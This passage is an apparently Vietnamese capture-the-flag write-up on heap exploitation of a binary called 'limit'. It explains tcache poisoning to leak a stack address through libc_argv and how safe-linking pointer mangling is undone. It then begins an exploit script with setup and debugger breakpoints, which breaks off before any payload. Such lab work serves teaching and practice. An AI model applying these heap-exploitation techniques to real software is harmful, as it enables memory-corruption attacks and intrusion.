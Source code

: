 
- nó đang giữ `tcache_entry` là `0x55bee5da73e0` ta sẽ thay đổi thành `libc_argv` để leak `stack`

![image](https://hackmd.io/_uploads/BJE3w-Srgl.png)


![image](https://hackmd.io/_uploads/By2nPZrSgg.png)

- lúc này ta có thể lấy libc_argv thành 1 chunk nhưng nó không gán vào chunks[idx] vì giới hạn `size` , lúc này ta chỉ leak được `idx` 14 là đã bị safe-linking biến đổi , đơn giản ta sẽ 

![image](https://hackmd.io/_uploads/Hy8F-MBrlx.png)

- do khi đưa vào bins thì nó sẽ lấy địa chỉ hiện tại >> 12 với target 

![image](https://hackmd.io/_uploads/SJ7XEGBHgg.png)

- vậy đơn giản ta có thể leak stack easy

![image](https://hackmd.io/_uploads/BJZ7HMSSxx.png)

exp: 

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from subprocess import check_output
from time import sleep

from pwnsol import *

# from ctypes import *
# glibc = cdll.LoadLibrary("/lib/x86_64-linux-gnu/libc.so.6")
# now = int(time.time())
# glibc.srand(now)


context.log_level = "debug"
context.terminal = [
    "wt.exe",
    "-w",
    "0",
    "split-pane",
    "-d",
    ".",
    "wsl.exe",
    "-d",
    "kali-linux",
    "--",
    "bash",
    "-c",
]
exe = context.binary = ELF("./limit_patched", checksec=False)
libc = exe.libc

gdbscript = """
brva 0x000000000000166E
brva 0x0000000000001585
brva 0x0000000000001445
brva 0x0000000000001742
c
"""


def start(argv=[]):
    if args.GDB:
```